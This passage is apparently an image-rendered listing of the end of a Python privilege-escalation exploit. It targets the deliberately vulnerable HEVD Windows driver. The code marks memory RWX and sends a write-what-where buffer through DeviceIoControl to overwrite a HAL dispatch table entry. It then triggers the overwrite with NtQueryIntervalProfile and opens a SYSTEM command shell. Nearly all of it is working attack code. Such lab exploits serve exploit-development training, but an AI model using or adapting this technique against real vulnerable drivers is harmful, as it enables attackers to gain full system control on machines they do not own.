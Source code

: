 ```python
        byref(c_ulong())
    )

    if result == 0:
        print("[!] VirtualProtect failed with error code: {}".format(str(GetLastError())))

    print("[*] Allocating our What buffer...")
    try:
        new_buf_contents = bytearray(struct.pack("<Q", ptr))
        new_buf = (c_char * len(new_buf_contents)).from_buffer(new_buf_contents)
        new_buf_ptr = addressof(new_buf)
    except Exception as e:
        print("[!] Failed to allocate What buffer with error: " + str(e))
    print("[*] Allocated What buffer at: {}".format(hex(new_buf_ptr)[:-1]))

    print("[*] Marking What buffer RWX...")
    result = kernel32.VirtualProtect(
        new_buf,
        c_int(len(new_buf_contents)),
        c_int(0x40),
        byref(c_ulong())
    )

    if result == 0:
        print("[!] VirtualProtect failed with error code {}".format(str(GetLastError())))

    buf = struct.pack("<Q", new_buf_ptr)
    buf += struct.pack("<Q", target_hal)
    buf_length = len(buf)
    
    result = kernel32.DeviceIoControl(
        hevd,
        0x22200b,
        buf,
        buf_length,
        None,
        0,
        byref(c_ulong()),
        None
    )

    if result != 0:
        print("[*] Buffer sent to driver successfully.")
    else:
        print("[!] Payload failed. Last error: " + str(GetLastError()))

def exploit():
    
    print("[*] Triggering with NtQueryIntervalProfile...")
    ntdll.NtQueryIntervalProfile(0x2408, byref(c_ulong()))

    print("[*] Opening system shell...")
    Popen("start cmd", shell=True)


        
img_name, kernel_base = base()
target_hal = hal_calc(img_name, kernel_base)
send_buf(target_hal)
exploit()
```
